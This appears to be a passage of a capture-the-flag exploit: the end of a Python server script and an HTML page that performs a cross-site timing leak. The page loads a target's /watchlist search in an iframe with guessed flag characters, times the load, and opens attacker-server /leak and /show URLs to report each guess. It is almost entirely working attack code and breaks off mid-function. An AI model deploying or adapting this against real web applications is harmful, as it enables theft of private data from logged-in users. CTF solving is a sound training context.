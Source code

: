 ```python
  app.run(port=port)#, ssl_context=context)


if __name__ == '__main__':
  if (len(sys.argv) > 1):
    argv_port = sys.argv[1]
    # if argv_port is a number between 0 and 65535
    if (argv_port.isdigit() and (int(argv_port) > 0) and (int(argv_port) < 65535)):
      port = int(argv_port)
  else:
    print("Usage: python3 server.py [port=5000]")
    pass

  start_server(port)
```
```html
<!-- check_char.html -->
 <body>
  <img src="/sleep/60000" />
  <script>
    let correct_guess = true;
    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
    const hash = window.location.hash?.slice(1) || "0|DCTF{";
    const currentflag = hash.split("|")[1] || "DCTF{";
    let idx = hash.split("|")[0] || "0";
    try {
      idx = parseInt(idx);
    } catch {
      idx = 0;
    }
    const chars = "abcdefghijklmnopqrstuvwxyz0134567}_-!@|:<>?-=[]\;',./{_";
    let current_char = chars[idx];
    const next = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/leak?time=${time}&flag=${currentflag}&current_char=${current_char}#${idx}|${currentflag}`
      );
      window.close();
    };
    const show = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/show?time=${time}&flag=${currentflag}&current_char=${current_char}(${idx})#${idx}|${currentflag}`
      );
    };
    const leak = async () => {
      let loaded = false;
      let checkiframe = document.createElement("iframe");
      checkiframe.src =
        "{{target_url}}/watchlist?q=" + currentflag + current_char;
      checkiframe.onload = () => {
        loaded = true;
        let time = performance.now() - start;
        show(time, currentflag, current_char, idx);
        if (time < 40) {
          correct_guess = false;
        }
      };
      let start = performance.now();
      document.body.appendChild(checkiframe);
      while (!loaded) {
        await sleep(100);
```